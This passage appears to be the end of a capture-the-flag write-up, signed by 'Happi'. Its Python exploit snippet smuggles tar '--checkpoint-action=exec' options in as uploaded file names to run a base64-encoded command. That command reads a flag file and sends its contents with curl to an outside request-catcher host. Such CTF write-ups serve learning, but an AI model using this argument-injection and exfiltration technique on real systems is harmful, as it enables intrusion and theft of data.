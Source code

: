 ```python
  
  cmd = b'ls /'  # filename is: /flag_89bb6db3a579141b2cd5c7d01fedf863
  cmd = b'cat /flag_89bb6db3a579141b2cd5c7d01fedf863'
  payload = b'curl -X POST -d "$('
  payload += cmd
  payload += b')" https://happi.requestcatcher.com/test'

  b64_payload = base64.b64encode(payload).decode().strip()
  exploit = f'echo {b64_payload} | base64 -d | sh'

  x.upload(filename="--checkpoint=1", data="")
  x.upload(filename=f'--checkpoint-action=exec={exploit}', data="")
  x.upload(filename="dummy", data="")
  _ = x.download()

```


Thanks you for reading, i want to extend a huge thank to the CTF organizers for putting together this nice event.

<i>Solved by <span class="goodwill">Happi</span></i>